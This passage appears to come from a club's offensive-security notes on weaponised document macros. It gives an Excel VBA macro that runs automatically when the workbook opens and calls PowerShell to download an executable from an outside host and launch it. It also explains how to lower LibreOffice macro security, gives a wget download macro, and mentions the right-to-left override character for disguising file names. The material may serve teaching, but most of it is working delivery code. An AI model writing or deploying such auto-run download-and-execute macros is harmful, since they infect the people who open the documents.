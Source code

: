 #### Excel
Excel macros are slightly different from word macros. For example, this is the equivalent of the word macro:

```vb
Sub Auto_Open()
    Dim exec As String
    Dim curDirectory As String
    
    'Get the directory of the currently opened Excel workbook
    curDirectory = ThisWorkbook.Path
    
    'If the workbook has never been saved, the path will be empty
    If curDirectory = "" Then
        MsgBox "Workbook must be saved first."
        Exit Sub
    End If

    'Replace any potential problematic characters (like \) for PowerShell string
    curDirectory = Replace(curDirectory, "\", "\\")

    'Build the PowerShell command to download and execute open_notepad.exe in the workbook's directory
    exec = "powershell.exe -NoExit -Command ""(new-object net.webclient).DownloadFile('https://umlcyber.club/open_notepad.exe', '" & curDirectory & "\\open_notepad.exe'); Start-Process '" & curDirectory & "\\open_notepad.exe'"""

    'Execute the PowerShell command
    Shell (exec)
End Sub

Sub Workbook_Open()
    Auto_Open
End Sub
```

### Linux
LibreOffice has good security defaults! By default, only signed macros from trusted sources can run. To run your macros, you will have to lower the security level.

To lower the security level, go to "Tools" -> "Options" -> "Security" tab -> "Macro Security" and set it to Medium or Low.

You can get a shell with linux macros, and then do whatever you want. For example:
```vb
Sub DownloadFile
    Shell("wget https://example.com/file.zip -O /path/to/save/file.zip")
End Sub
```

## RTLO Character
Get the character here: <https://unicode-explorer.com/c/202E>
